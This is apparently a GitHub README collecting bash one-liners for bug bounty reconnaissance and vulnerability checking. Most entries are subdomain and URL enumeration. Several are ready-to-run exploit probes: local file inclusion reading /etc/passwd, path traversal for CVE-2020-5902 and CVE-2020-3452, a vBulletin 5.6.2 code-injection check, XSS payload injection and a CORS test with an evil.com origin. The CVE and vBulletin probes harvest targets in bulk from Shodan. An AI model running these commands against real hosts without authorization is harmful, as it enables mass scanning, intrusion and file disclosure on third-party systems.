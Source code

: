 # Awesome One-liner Bug Bounty
> A collection of awesome one-liner scripts especially for bug bounty. From: https://github.com/dwisiswant0/awesome-oneliner-bugbounty

This repository stores and houses various one-liner for bug bounty tips provided by me as well as contributed by the community. Your contributions and suggestions are heartily♥ welcome.

---

### Local File Inclusion

```bash
gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect

```bash
export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

### XSS

```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
```

### CVE-2020-5902

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

### CVE-2020-3452

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution

```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```

### Find JS Files

```bash
assetfinder site.com | gau|egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)'|while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" |sed -e 's, 'var','"$url"?',g' -e 's/ //g'|grep -v '.js'|sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars";done
```

### Extract Endpoints from JS File

```bash
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

### Get CIDR & Orgz from Target Lists

```bash
for DOMAIN in $(cat domains.txt);do echo $(for ip in $(dig a $DOMAIN +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```

### Get Subdomains from RapidDNS.io

```bash
curl -s "https://rapiddns.io/subdomain/$1?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/#results//g' | sort -u
```

### Get Subdomains from BufferOver.run

```bash
curl -s https://dns.bufferover.run/dns?q=.DOMAIN.com |jq -r .FDNS_A[]|cut -d',' -f2|sort -u
```

### Get Subdomains from Riddler.io

```bash
curl -s "https://riddler.io/search/exportcsv?q=pld:domain.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u 
```

### Get Subdomains from VirusTotal

```bash
curl -s "https://www.virustotal.com/ui/domains/domain.com/subdomains?limit=40" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```

### Get Subdomains from CertSpotter

```bash
curl -s "https://certspotter.com/api/v0/certs?domain=domain.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```

### Get Subdomains from Archive

```bash
curl -s "http://web.archive.org/cdx/search/cdx?url=*.domain.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
```

### Get Subdomains from JLDC

```bash
curl -s "https://jldc.me/anubis/subdomains/domain.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```
### Get Subdomains from securitytrails

```bash
curl -s "https://securitytrails.com/list/apex_domain/domain.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".domain.com" | sort -u
```
### Get Subdomains from crt.sh


```bash
curl -s "https://crt.sh/?q=%25.$1&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u
```

### Sort & Tested Domains from Recon.dev

```bash
curl "https://recon.dev/api/search?key=apikey&domain=example.com" |jq -r '.[].rawDomains[]' | sed 's/ //g' | sort -u |httpx -silent
```

### Subdomain Bruteforcer with FFUF

```bash
ffuf -u https://FUZZ.rootdomain -w jhaddixall.txt -v | grep "| URL |" | awk '{print $4}'
```

### Find All Allocated IP ranges for ASN given an IP address

```bash
whois -h whois.radb.net -i origin -T route $(whois -h whois.radb.net $1 | grep origin: | awk '{print $NF}' | head -1) | grep -w "route:" | awk '{print $NF}' | sort -n
```

### Extract IPs from a File

```bash
grep -E -o '(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)' file.txt
```

### Ports Scan without CloudFlare

```bash
subfinder -silent -d uber.com | filter-resolved | cf-check | sort -u | naabu -rate 40000 -silent -verify | httprobe
```

### Create Custom Wordlists

```bash
gau domain.com| unfurl -u keys | tee -a wordlist.txt ; gau domain.com | unfurl -u paths|tee -a ends.txt; sed 's#/#\n#g' ends.txt  | sort -u | tee -a wordlist.txt | sort -u ;rm ends.txt  | sed -i -e 's/\.css\|\.png\|\.jpeg\|\.jpg\|\.svg\|\.gif\|\.wolf\|\.bmp//g' wordlist.txt
```

```bash
cat domains.txt | httprobe | xargs curl | tok | tr '[:upper:]' '[:lower:]' | sort -u | tee -a words.txt  
```

### Extracts Juicy Informations

```bash
for sub in $(cat domains.txt);do /usr/bin/gron "https://otx.alienvault.com/otxapi/indicator/hostname/url_list/$sub?limit=100&page=1" | grep "\burl\b" | gron --ungron | jq |egrep -wi 'url' | awk '{print $2}' | sed 's/"//g'| sort -u | tee -a file.txt  ;done
```

### Find Subdomains TakeOver

```bash
subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/go/src/github.com/haccer/subjack/fingerprints.json -v 3 >> takeover ; 
```

### Get multiple target's Custom URLs from ParamSpider

```bash
cat domains | xargs -I % python3 ~/tool/ParamSpider/paramspider.py -l high -o ./spidering/paramspider/% -d % ;
```

### URLs Probing with cURL + Parallel

```bash
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

###  Get all the urls out of a sitemap.xml

```bash
curl -s domain.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'
```

### Pure bash Linkfinder

```bash
curl -s $1 | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort | uniq | grep ".js" > jslinks.txt; while IFS= read link; do python linkfinder.py -i "$link" -o cli; done < jslinks.txt | grep $2 | grep -v $3 | sort -n | uniq; rm -rf jslinks.txt
```

### Extract Endpoints from swagger.json

```bash
curl -s https://domain.tld/v2/swagger.json | jq '.paths | keys[]'
```

### CORS Misconfiguration

```bash
site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```

### Find Hidden Servers and/or Admin Panels

```bash
ffuf -c -u https://target .com -H "Host: FUZZ" -w vhost_wordlist.txt 
```

### Recon using api.recon.dev

```bash
curl -s -w "\n%{http_code}" https://api.recon.dev/search?domain=site.com | jg .[].domain
```

### Find live host/domain/assets

```bash
subfinder -d http://tesla.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
```

### XSS without gf

```bash
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```

### Extract endpoints from APK files

```bash
apkurlgrep -a path/to/file.apk
```

### Get Subdomains from IPs

```bash
python3 hosthunter.py <target-ips.txt> > vhosts.txt
```

### webscreenshot

```bash
python webscreenshot.py -i list.txt -w 40
```

### Removes duplicate URLs and parameter combinations

```bash
cat urls.txt |qsreplace -a
```

### Gather domains from content-security-policy:

```bash
curl -v -silent https://$domain --stderr - | awk '/^content-security-policy:/' | grep -Eo "[a-zA-Z0-9./?=_-]*" |  sed -e '/\./!d' -e '/[^A-Za-z0-9._-]/d' -e 's/^\.//' | sort -u
```
